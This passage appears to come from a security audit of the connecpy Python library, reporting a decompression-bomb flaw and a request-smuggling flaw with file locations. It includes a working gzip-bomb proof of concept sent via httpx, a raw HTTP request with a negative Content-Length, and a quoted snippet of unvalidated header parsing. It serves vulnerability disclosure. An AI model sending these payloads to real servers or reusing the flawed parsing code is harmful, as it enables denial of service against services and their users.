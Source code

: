 ### 2. Decompression Bomb (HIGH)

#### Location
- **ASGI**: `src/connecpy/asgi.py`, lines 168-169
- **WSGI**: `src/connecpy/wsgi.py`, lines 271-277

#### Attack Vector
Send highly compressed data that expands beyond server memory when decompressed.

#### Technical Details
- No validation of compressed vs decompressed size ratio
- Decompression happens before size check
- Compression ratios observed:
  - Gzip: up to 1000:1
  - Brotli: up to 75,000:1
  - Zstd: up to 21,000:1

#### Proof of Concept
```python
def create_bomb():
    # 100MB of zeros compresses to ~100KB
    data = b'\x00' * (100 * 1024 * 1024)
    return gzip.compress(data, compresslevel=9)

# Send 100KB that decompresses to 100MB
bomb = create_bomb()
response = httpx.post(url, content=bomb, 
                     headers={"Content-Encoding": "gzip"})
```

### 3. Request Smuggling (CRITICAL)

#### Location
- **WSGI**: `src/connecpy/wsgi.py`, lines 251-260

#### Vulnerabilities
1. **No Content-Length validation**
   ```python
   content_length = environ.get("CONTENT_LENGTH")
   if not content_length:
       content_length = 0
   else:
       content_length = int(content_length)  # No validation!
   ```

2. **No handling of multiple Content-Length headers**
3. **No Transfer-Encoding validation**
4. **Chunked reading fallback creates ambiguity**

#### Attack Scenarios

##### Attack 1: Negative Content-Length
```http
POST /service/method HTTP/1.1
Content-Length: -1
Content-Type: application/json

{"malicious": "payload"}
```
Result: Integer underflow or unexpected behavior
